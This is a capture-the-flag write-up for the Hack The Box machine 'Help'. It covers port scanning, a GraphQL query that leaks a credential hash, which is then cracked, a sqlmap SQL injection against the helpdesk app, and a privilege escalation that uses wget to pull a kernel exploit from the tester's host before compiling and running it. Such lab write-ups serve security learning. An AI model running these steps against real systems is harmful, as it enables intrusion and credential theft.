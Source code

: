 ```yaml
---
title: "Help - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - htb
  - hackthebox
  - machine
  - easy
  - linux
toc: true
hide_title: true
excerpt: ""
sidebar:
        nav: "menu_writeups"
---
```


## Help
![](https://kar0nx.github.io/assets/images/writeup/2f6225d90a3caf56699c3d93e8779d6b.png)
## Reconnaissance

IP: 10.10.10.121
## NMAP

```
nmap -T4 -p- -A 10.10.10.121
```

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-05 07:52 UTC
Nmap scan report for help.htb (10.10.10.121)
Host is up (0.031s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e5:bb:4d:9c:de:af:6b:bf:ba:8c:22:7a:d8:d7:43:28 (RSA)
|   256 d5:b0:10:50:74:86:a3:9f:c5:53:6f:3b:4a:24:61:19 (ECDSA)
|_  256 e2:1b:88:d3:76:21:d4:1e:38:15:4a:81:11:b7:99:07 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (application/json; charset=utf-8).
Device type: general purpose|router
Running: Linux 5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 5.0 - 5.14, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 2 hops
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   29.94 ms 10.10.14.1
2   30.39 ms help.htb (10.10.10.121)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.48 seconds
```

add to /etc/hosts help.htb

## Website
### Site

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250905095322.png)

ffuf found /support and /javascript (no permission to view)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250905095515.png)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250905095426.png)

In README.md we can spot version 1.0.2

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250905102054.png)

found 2 file upload exploit 1 didn't work for me and in second we must be authenticated
`https://www.exploit-db.com/exploits/41200`
So let's skip it for now and search other vectors.

## port 3000

on port 3000 we have information 

```
Hi Shiv, To get access please find the credentials with given query
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250905095707.png)

Getting hint that directory is graphql

```
http://10.10.10.121:3000/graphql
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250905112206.png)

Searching for query missing in GET request of graphql i found this post
https://x.com/coffeetocode/status/1047598473871163393

pasting this in we got a lot of date

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250905112736.png)

we can easyli spot User query with fileds username and password
So we can navigate to this field with query parameter in url

```
http://10.10.10.121:3000/graphql?query={user%20{username,password}%20}
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250905113245.png)

```
helpme@helpme.com
5d3c93182bb20f07b994a7f617e99cff
```

password is encoded, used crackstation to decode and I got password 

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250905113355.png)

godhelpmeplz

now we can login to `help.htb/support`

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250905130516.png)

https://www.exploit-db.com/exploits/41200
Exploit doesn't works so let's try to do it manual

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250905132009.png)

as poc in exploit says when we attempt do download file from ticket it have sqlinjection:

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250905133037.png)

Save request and run sqlmap

```
sqlmap -r request --level 5 --risk 3 -p param[] 
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250905133206.png)

and we got user `support@mysite.com` d318f44739dced66793b1a603028133a76ae680e (Welcome1) 

## Privilege Escalation

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250905133644.png)

4.4.0-116-generic
https://www.exploit-db.com/exploits/44298

now get exploit on the box compile and run

```
wget http://10.10.14.8/44298.c
gcc 44298.c -o exploit
./exploit
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250905134113.png)

